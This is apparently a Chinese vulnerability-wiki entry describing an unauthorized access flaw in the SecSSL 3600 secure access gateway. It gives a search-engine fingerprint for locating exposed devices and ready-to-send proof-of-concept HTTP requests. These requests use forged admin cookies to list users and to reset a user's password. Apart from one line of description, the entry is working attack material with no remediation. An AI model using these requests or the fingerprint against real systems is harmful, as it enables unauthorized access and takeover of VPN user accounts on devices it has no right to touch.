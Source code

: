 # 网神 SecSSL 3600安全接入网关系统 未授权访问漏洞

## 漏洞描述

网神 SecSSL 3600安全接入网关系统 存在未授权访问漏洞，攻击者通过漏洞可以获取用户列表，并修改用户账号密码

## 漏洞影响

<a-checkbox checked>网神 SecSSL 3600安全接入网关系统  </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="安全接入网关SecSSLVPN" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1683194562640-b489ef43-07a3-45a1-8bd9-c7b311c1c0c0.png)

验证POC，获取用户列表zkec

```sql
GET /admin/group/x_group.php?id=2

Cookie: admin_id=1; gw_admin_ticket=1;
```

![img](/assets/PeiQi-Wiki/img/1683194650093-f31de8b5-b20e-46c4-b967-dc2d5007f861.png)

修改用户密码

```sql
POST /changepass.php?type=2 

Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"ceshi","subAuthId":"1"}
old_pass=&password=Asd123!@#123A&repassword=Asd123!@#123A
```

![img](/assets/PeiQi-Wiki/img/1683194784648-9c5a03d8-e44c-406e-94f8-15bb299bc2a4.png)